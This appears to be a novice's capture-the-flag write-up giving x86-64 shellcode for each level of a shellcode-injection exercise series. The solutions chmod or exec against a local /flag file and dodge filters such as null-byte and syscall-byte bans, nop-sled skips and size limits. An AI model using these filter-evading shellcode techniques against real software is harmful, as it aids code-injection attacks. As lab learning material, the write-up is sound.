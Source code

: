 # 1. Chmod:
-You can use command `cd /` to see file flag.
-So, it is simple that you only chmod(/flag).
```
.global _start
_start:
.intel_syntax noprefix
      lea rdi, [rip + flag]
      mov rsi, 4
      mov rax, 0x5a
      syscall
      flag:
          .asciz "/flag'
```
# 2. Nop sled:
-A portion of your input is randomly skipped at 0x800 bytes, so you need to skip 0x800 bytes.
-Nop is the insruction is do not anything, only create a empty memory.
```
.global _start
_start:
.intel_syntax noprefix
.rept 0x800
nop
.endr
      lea rdi, [rip + flag]
      mov rsi, 4
      mov rax, 0x5a
      syscall
      flag:
          .asciz "/flag"
```
# 3. No null bytes:
-This exercise is necessary , because it is fundamental knowledge for exploit functions. 
```
.global _start
_start:
.intel_syntax noprefix
    mov ebx, 0x67616c66
    shl rbx, 8
    mov bl, 0x2f
    push rbx
    mov rdi, rsp
    xor rsi, rsi
    mov sil, 4
    mov al, 0x5a
    syscall
```
# 4. No H byte:
-I started trying to write shellcode without null bytes and byte 0x48(H byte). But I am not successful. 
-So I test with only no byte 0x48.
-Fortunately, it works.
```
.global _start
_start:
.intel_syntax noprefix
lea edi, [rip + flag]
xor esi, esi
mov sil, 0x4
mov al, 0x5a
syscall
flag:
     .asciz "/flag"
```
-When I make this write up, I am only a newbie. Therefore, in the future, I will try to make it better.
# 5. No form of system call bytes (syscall, sysenter, int):

```
.global _start
_start:
.intel_syntax noprefix
lea edi, [rip + flag]
xor esi, esi
mov sil, 0x4
mov al, 0x5a
inc byte ptr [rip + sys1 + 1]
inc byte ptr [rip + sys1]

sys1:
.byte 0x0e
.byte 0x04
flag:
     .asciz "/flag"
```
# 6. No form of system call bytes (syscall, sysenter, int) && Nop sled:
```
.global _start
_start:
.intel_syntax noprefix
.rept 0x1000
nop
.endr
lea edi, [rip + flag]
xor esi, esi
mov sil, 0x4
mov al, 0x5a
inc byte ptr [rip + sys1 + 1]
inc byte ptr [rip + sys1]

sys1:
.byte 0x0e
.byte 0x04
flag:
     .asciz "/flag"
```
# 7. All file descriptors (including stdin, stderr and stdout!) are closed:
-I only use syscall chmod, so I can use the code from level before.
# 8. Only get 18 bytes:
-The solution is that we need to use execve syscall, and file is catflag.c 
```
// catflag.c

void main()
{
    chmod("/flag", 4);
}
```
-Then I only write shellcode to execve catflag.c. However, the intereting thing is command gcc `catflag.c -o \;` , the file output is `";"`, the reason for this is `";"` in hex is 0x3b and also the value of rax register. So we can use this value for rdi register.
```
.global _start
_start:
.intel_syntax noprefix
mov al, 0x3b
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
syscall
```
-The other way is using soft link `ln -s /flag f` (f is a symbol, you can change if you want character better). Therefore, when you use chmod syscall, it will be shorter.
# 9. Challenge modified your shellcode by overwriting every other 10 bytes with 0xcc.
-I continue to use my file catflag.c in level9.
-The idea to solve this challenge is use nop-sled; however, when I only use label next, it do not work correctly. I have tried many metho but no hope.... Finally, I test with label next1 in label next; fortunatelly, I have flag. 
```
.global _start
_start:
.intel_syntax noprefix
mov al, 0x3b
push rax
mov rdi, rsp
jmp next
.rept 0x10
nop
.endr
next:
xor rsi, rsi
jmp next1
.rept 0x10
nop
.endr
next1:
xor rdx, rdx
syscall
```
# 10. Level 10:
-My code at level 4 still work.
# 11. Level 11:
-My code at level 4 still work.
# 12. Level 12:
-It requires no byte alike.

```
.global _start
_start:
.intel_syntax noprefix
push 0x3b
mov rdi, rsp
xor esi, esi
cdq
pop rax
syscall
```
`cdq` make value of rdx is 0. If do not have this, the code will work wrong when execve execute.
# 13. Level 13:
-My code at level 12 still work.
# 14. Level 14:
-Troll VN=)))).
-It requires only 6 bytes=)))).
